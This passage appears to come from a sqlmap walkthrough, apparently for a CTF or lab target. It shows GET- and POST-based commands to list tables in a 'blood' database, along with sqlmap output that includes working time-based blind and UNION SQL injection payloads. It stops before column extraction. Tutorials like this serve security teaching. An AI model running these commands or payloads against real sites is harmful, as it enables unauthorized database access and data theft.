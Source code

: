   
Now that we have the databases, let's extract tables from the database **blood**.

**Using GET based Method**  
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`  
**  
**Using POST based Method**

`sqlmap -r req.txt -p blood_group -D blood --tables`

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`  
**

Once we run these commands, we should get the tables.

Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

  
  

Once we have available tables, now let’s gather the columns from the table blood_db.  
  